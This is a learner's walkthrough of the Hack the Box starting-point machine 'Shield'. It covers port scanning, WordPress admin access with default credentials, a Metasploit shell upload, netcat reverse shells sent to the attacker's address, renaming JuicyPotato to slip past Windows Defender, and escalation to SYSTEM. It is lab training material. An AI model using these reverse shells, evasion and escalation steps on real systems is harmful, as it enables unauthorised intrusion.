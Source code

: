 # Shield

Welcome to Another walkthrough! This walkthrough will be based on Hack the Box starting point machine "Shield". Remember all links in this walkthrough will lead you to educatonal sources to learn more about the topic I am discussing at that point in time. I will try to do my best to explain everything in detail, but keep in mind I am learning just like you are! I hope this helps you as much as it is going to help me and enjoy your journey! 
# Enumeration
Step 1: Nmap Scan
  - As always we are going to start out with our friendly nmap scan `nmap -sS -A -oN NMAP.txt 10.10.10.29`
    - This command will scan the machine and output the results to a text file "NMAP.txt"
    ![image](https://user-images.githubusercontent.com/29686845/134412007-c23344ed-3160-4531-9386-8df0a3c6ab16.png)
  - We see that two ports are open: Port 80/tcp HTTP and Port 3306/tcp mysql. 

Step 2: Port 80: HTTP
  - Lets check out port 80 the webpage.
      ![image](https://user-images.githubusercontent.com/29686845/134413396-20d418a2-ab0e-4587-8954-1b4b351b3193.png)
    - We seem to land on a [IIS](https://docs.microsoft.com/en-us/troubleshoot/iis/configure-default-document-iis)             starting page. 
      - I tried using burpsuite and checking the webpage source/storage to see if there were any subdirectories we can           gain access too or if there were any cookies we could exploit as we did in the machines Ooopsie & Vaccine.             There was no useful information there either. 
    - Eventhough this doesn't give us much information it does give us an important piece of the puzzle. We now know that       they are running windows server (Just incase you didn't pick that up from the nmap scan). In turn we might need to       run windows commands in the future.
    - Instead lets try using the tool [GoBuster](https://tools.kali.org/web-applications/gobuster).

Step 3: GoBuster
  - [GoBuster](https://tools.kali.org/web-applications/gobuster) is a tool that allows us to brute force URIs or             directories or files in webpages and to brute force DNS sub-domains. 
  - If you dont already have GoBuster installed (which I did not) Run the command `sudo apt install gobuster` 
    - Lets run the command: 
    - `gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt`
      - lets break down this command down a little bit since we are running a new tool.
      - gobuster: is the tool that we are calling to use
      - dir: is the windows equvalent to ls
      - -u: is to sepcifiy the target URL
      - -w: is to specifiy a wordlist. In this case we are going to use the common.txt.
    - Now we are going to let this run while it brute forces the password so we can get into different directories.           This may take a few minutes to complete.
      ![image](https://user-images.githubusercontent.com/29686845/134419257-79fa5f82-f03d-4b6a-900a-75b400fe5594.png)
    - We see that there is a is another directory /wordpress. so lets add that to our url. 
    - It should loook like `http://10.10.10.29/wordpress` 

# Foothold

Step 1: Word Press. 
  - The wepage seems to be a site advertising an electric truck with a smoke screen despensor and run flat tires. After exploring the page and more specifically exploring their blog we can find a link to log in. 
      ![image](https://user-images.githubusercontent.com/29686845/134676948-446c1e95-6e10-43c7-a2d0-9b0edcbabf26.png)
      ![image](https://user-images.githubusercontent.com/29686845/134677083-ba663149-978f-4dcb-9807-680cff595e87.png)
    - One thing to keep in mind is that the website is using [WordPress](https://wordpress.com/). WordPress is a a           Content Maagement system (CMS) that allows users to spin up a webpage or blog quickly and effiecently.
    - WordPress gerenally uses the username `admin` for the default credentials and since all the starting point             machines seem to follow eachother; we can try previous passwords we have from other machines to see if it works.
    - After some trial and error we find that the username and password is `admin : P@s5w0rd!`
      ![image](https://user-images.githubusercontent.com/29686845/134679391-7eb7bbdb-d230-47ca-a716-360fcead5bcd.png)
    - Now that we have access to the admin page we can look around, but it doesn't seem like we will have much access         to anything useful. 
    - I did some Research on [exploiting WordPress](https://hackertarget.com/attacking-wordpress) and it seems we can         exploit it with Metasploit's [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/)

Step 2: msfconsole
  - Metasploits [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/) is an all in one tool     that provides many different resources for enumertion, exploitation, and much more.
  - based on the exploit that I reviewed which used one of the tools in `exploit/unix/webapp` so i decided I would look     there to see if anyhting of interest. 
    - we can use the command: `search exploit/unix/webapp/wp` to see what options that Metasploit has to offer.
    - The first option we can see is `wp_admin_shell_upload` whcih catches my eye.
      ![image](https://user-images.githubusercontent.com/29686845/134682886-bcee6fc3-69ec-4c87-a47f-0cae241ad3dc.png) 
    - Metasploit offers a a few options that we can use to call this command from our search command: `use 0` or we can       call the whole tool and path with: `use /exploit/unix/webapp/wp_admin_shell_upload`
      - You can only use the `use 0` command after you have done a seaerch. your calling the number of results from our         search, so if you wanted to use a different exploit you would call that numver instead.
  - Now we are going to set some optoins before we run our exploit. This will tell msfconsole the who/what/when/where       to attack with our exploit.
    - `set USERNAME admin`
    - `set PASSWORD P@s5w0rd!`
    - `set TARGETURI /wordpress
    - `set RHOSTS 10.10.10.29`
    - `set LHOST < to your tun0 IP address >` (Forgot this and realized when it wasn't wokring)
      ![image](https://user-images.githubusercontent.com/29686845/134686497-8936a54b-69f9-4fcd-b98b-b7c4f8f300c4.png)
    - We have all of our peramaters set now lets run the exploit. we can type `run` or `exploit` <-- the funniest one         of the two. 
      ![image](https://user-images.githubusercontent.com/29686845/134688488-b5465433-988a-429f-966f-d0d8d2ce9f40.png)
    - Now we have our meterpreter connection and we can get a shell by typing `shell` 
      - shell can be a little finicky at times so we can work with it or we can upgrade our shell with netcat to               provide us with more stable shell.

Step 3: Netcat

  - Kali Linux has builting resources and scripts and we are going to be calling on nc.exe to upgrade our meterpreter       shell.
    - in your kali machine directory `/usr/share/windows-resources/binaries/` you will find the nc.exe. 
    - We can copy that with the `cp` command to any directory you would like and we can call on it withing our               meterpreter as long as we provide the absolute path.
    - Within our meterpreter session lets use the local change directory command (lcd):
    - `lcd /home/splash/HTB/Starting_Point/Shield` this is my direct path to the nc.exe. (you will use yours)
    - still within our meterpreter session we will change the directory to:
    - `\inetpub\wwwroot\wordpress\wp-content\uploads`
    - Now lets upload our nc.exe with `upload nc.exe`
      ![image](https://user-images.githubusercontent.com/29686845/134699318-166baca3-2660-4a5d-b9df-98403840bff9.png)
    - We have our .exe file uploaded, so lets set up a listner and execute it:
    - run our listener `nc -lvnp 1234` in another terminal on your kali machine
    - run `execute -f nc.exe -a "-e cmd.exe 10.10.14.14 1234"` in our meterpreter session. (Keep in mind that is your         tun0 ip and set listening port)
      ![image](https://user-images.githubusercontent.com/29686845/134704321-d793013a-501c-4785-94de-df6ff2c87601.png)
      ![image](https://user-images.githubusercontent.com/29686845/134704375-c84761db-08a2-462c-b7db-2d0b73595884.png)
    - We have successful set up our more stable reverse shell.

# Privilege Escalation

Here is a [cheatsheet](http://www.cs.columbia.edu/~sedwards/classes/2015/1102-fall/Command%20Prompt%20Cheatsheet.pdf) for linux to windows commands. We are going to need it moving forward since we have a shell into a windwos machcine.

Step 1: System Information
  - First lets get some information about the system we are conencted to and see if we can find a way to get admin/root permissions.
    - Lets start by running the `systeminfo` command.
      ![image](https://user-images.githubusercontent.com/29686845/134710727-8bc1854d-0610-4911-8430-dcfc1a83ba00.png)
    - We see that we find that the os is Windows Server 2016 Standard, Version: 10.0.143393 Build 14383

Step 2: Juicy Potato
  - We are going to use a tool called [Juicy Potato](https://github.com/ohpe/juicy-potato.git). This is a varient of       the tool [Rotton Potato](https://github.com/breenmachine/RottenPotatoNG). This allows services accounts to escalate     to SYSTEM privilges by leveraging the [BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-           intelligent-transfer-service-portal). Along with privileged access tokens in order to complete a [MiTM]                 (https://www.rapid7.com/fundamentals/man-in-the-middle-attacks/) or Man in the Middle attack. 
    - now we need an exe file from the [Juicy Potato](https://github.com/ohpe/juicy-potato.git) git page.                     Unfrotuinatly, the exe we are looking for is not there and I have looked through all repositiores, but was             eventually found when you add /releases to the end of the github link. It should look like:
    - `https://github.com/ohpe/juicy-potato/releases` 
    - Download the file and make it executable with `chmod +x JuicyPotato.exe`
    - Now lets upload it too the server.
      ![image](https://user-images.githubusercontent.com/29686845/134717625-76ce60bc-8627-4f20-9cae-fafbedccaab0.png)
    - We have to change the name of the file, so that when we run it windows defender wont flag it and kill the process
    - to rename it use the move command `mv JuicyPotato.exe js.exe`
    -  next lets run the start command and execute a powershell terminal.
    -  `echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.14 1111 >                 shell.bat`
    -  Lets set up another listener and call on the shell.bat file we just created.
    -  `js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337 -c {bb6df56b-cace-11dc-9992-0019b93a3a84}`
    -  now if you go over to your netcat listner we have a new administrator shell.

# Post Exploitatoin

Step 1: Exploring

  - We start off in the system32 director in the windows server.... which we don'tt necessarily need so lets `cd \` to     get to our root directory.
  - You will find our root.txt in `c:\Users\Administrator\Desktop`. We can cat the file to get the flag and input it       into hack the box.
